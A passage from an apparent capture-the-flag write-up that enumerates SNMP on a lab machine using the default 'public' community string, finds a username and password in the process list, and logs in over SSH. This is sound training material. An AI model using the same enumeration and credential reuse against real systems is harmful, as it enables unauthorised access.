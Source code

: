 And we find that the community string is simply set to **public**, so that was easy.

<br>

## SNMP Enumeration

We can now use a tool called **snmp-check** to enumerate SNMP further to see what information we can find. I run the following:

`snmp-check 10.10.11.136 -c public > test.txt`


```
819                   runnable              sh                    /bin/sh               -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
1134                  runnable              host_check            /usr/bin/host_check   -u daniel -p HotelBabylon23
```

A lot of information is returned, but those lines found in the processes section stood out because it looks like a username and password being supplied as arguments.

<br>

## Daniel

I try and **SSH** over with the credentials found and we're successfully able to login to the system:

`ssh daniel@10.10.11.136`

```
The authenticity of host '10.10.11.136 (10.10.11.136)' can't be established.
ED25519 key fingerprint is SHA256:yDtxiXxKzUipXy+nLREcsfpv/fRomqveZjm6PXq9+BY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.136' (ED25519) to the list of known hosts.
daniel@10.10.11.136's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 22 Mar 19:55:09 UTC 2022

  System load:           0.0
  Usage of /:            63.0% of 4.87GB
  Memory usage:          7%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.136
  IPv6 address for eth0: dead:beef::250:56ff:feb9:69cc

  => /boot is using 91.8% of 219MB


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
```